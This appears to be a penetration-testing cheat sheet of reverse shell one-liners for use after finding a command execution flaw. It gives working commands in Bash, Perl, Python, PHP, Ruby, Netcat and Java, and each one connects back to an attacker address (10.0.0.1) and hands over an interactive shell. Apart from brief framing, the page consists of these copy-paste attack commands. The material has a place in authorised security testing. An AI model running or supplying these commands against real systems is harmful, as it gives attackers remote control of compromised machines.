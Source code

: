 <p>If you&#8217;re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you&#8217;ll probably want an interactive shell.</p>
<p>If it&#8217;s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.</p>
<p>Your options for creating a reverse shell are limited by the scripting languages installed on the target system &#8211; though you could probably upload a binary program too if you&#8217;re suitably well prepared.</p>
<p>The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute &#8220;/bin/sh -i&#8221; with &#8220;cmd.exe&#8221;.</p>
<p>Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they&#8217;re quite short lines, but not very readable.</p>
<h3>Bash</h3>

<pre>bash -i &gt;&amp; /dev/tcp/10.0.0.1/8080 0&gt;&amp;1</pre>
<h3>PERL</h3>

<pre>perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,"&gt;&amp;S");open(STDOUT,"&gt;&amp;S");open(STDERR,"&gt;&amp;S");exec("/bin/sh -i");};'</pre>

<h3>Python</h3>
<p>This was tested under Linux / Python 2.7:</p>
<pre>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'</pre>
<h3>PHP</h3>
<p>This code assumes that the TCP connection uses file descriptor 3. If it doesn&#8217;t work, try 4, 5, 6&#8230;</p>
<pre>php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'</pre>

<h3>Ruby</h3>
<pre>ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i &lt;&amp;%d &gt;&amp;%d 2&gt;&amp;%d",f,f,f)'</pre>
<h3>Netcat</h3>
<p>Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don&#8217;t support the -e option.</p>
<pre>nc -e /bin/sh 10.0.0.1 1234</pre>
<pre>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2&gt;&amp;1|nc 10.0.0.1 1234 &gt;/tmp/f</pre>

<h3>Java</h3>
<pre>r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5&lt;&gt;/dev/tcp/10.0.0.1/2002;cat &lt;&amp;5 | while read line; do \$line 2&gt;&amp;5 &gt;&amp;5; done"] as String[])
p.waitFor()</pre>